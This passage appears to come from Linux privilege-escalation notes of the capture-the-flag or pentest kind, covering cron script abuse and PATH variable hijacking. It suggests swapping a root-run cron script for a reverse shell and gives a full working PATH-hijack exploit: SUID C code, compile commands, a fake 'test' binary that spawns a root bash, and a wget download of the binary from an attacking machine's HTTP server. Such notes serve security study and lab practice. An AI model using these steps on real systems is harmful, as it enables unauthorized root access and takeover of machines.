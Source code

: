 - View crontab configuration:
```bash
cat /etc/crontab
```

If a script is editable and runs as root, replace its contents with a reverse shell or privilege-escalating payload and set up a listener to catch the shell.

---

### PATH Variable Hijacking
The `PATH` environment variable tells the system where to find executables.

- **Check PATH:**
```bash
echo $PATH
```
- **Check for writable directories:**
```bash
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
```

If a writable directory is in `PATH`, you can create a fake binary with the same name as a called command.

#### Example Exploit:
1. C code (`path_exp.c`):
```c
#include<unistd.h>
void main() {
  setuid(0);
  setgid(0);
  system("test");
}
```
2. Compile and set SUID:
```bash
gcc path_exp.c -o path -w
chmod u+s path
```
- *Note: If victim machine doesn't have compiler, go on attacking machine, create the file, compile on attacking machine*
	- *Compile the file with the `-static` flag at the end to contain all the libraries it needs to bypass any mismatch issues*
	- *Host python server and `wget` from victim machine (`python3 -m http.server 4545` - `wget http://10.10.14.14:4545/path`)*
3. Add writable dir to PATH and place `test`:
```bash
export PATH=/tmp:$PATH
echo "/bin/bash" > /tmp/test
chmod 777 /tmp/test
./path
```

---
